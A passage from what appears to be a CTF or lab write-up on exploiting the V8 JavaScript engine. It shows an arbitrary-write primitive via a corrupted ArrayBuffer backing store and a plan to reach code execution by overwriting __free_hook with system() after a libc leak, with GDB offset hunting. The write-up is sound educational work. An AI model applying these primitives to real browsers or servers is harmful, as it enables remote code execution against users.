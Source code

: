 ```javascript
function arb_write(addr, val) {
    // set up ArrayBuffer and DataView objects
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;

    // write address to backing store
    initial_arb_write(backing_store_addr, addr);
    // write data to offset 0, with little endian true
    dataview.setBigUint64(0, BigInt(val), true);
}
```

## Getting RCE

From here, it's similar to userland exploitation.

### Overwriting \_\_free\_hook() with system()

The simplest approach, as any call to `console.log()` will inevitably be freed immediately after. To do this, we'll need a libc leak.

In order for it to be reliable, it'll have to be through a section of memory allocated by V8 itself. We can use GDB to comb throught the memory of the area that stored the maps. I'm going to get `exploit.js` to print out a bunch of the addresses we have. I'll then try and retrieve every single notable address I can.

```javascript
console.log("[+] Float Map: 0x" + ftoi(map_float).toString(16))
console.log("[+] Object Map: 0x" + ftoi(map_obj).toString(16))
```

Running it multiple times, the last 4 digits are consistent, implying that they're a fixed offset:

```javascript
[+] Float Map: 0x2b1dc2e82ed9
[+] Object Map: 0x2b1dc2e82f79
```

&#x20;That bodes well. Running `vmmap`, we can find the region they are in:

```javascript
gef➤  vmmap
[...]
0x00002b1dc2e80000 0x00002b1dc2ec0000 0x0000000000000000 rw-
[...]
```

So the offsets appear to be `0x2ed9` and `0x2f79`. Let's throw that into `exploit.js` and see if that's right by running it again and again. It appears to be, but randomly there is an issue and the address is not even in assigned memory - I assume it's at least in part due to the floating-point issues.

Now we have that, let's try combing through the map region and see if there are any other interesting values at fixed offsets.
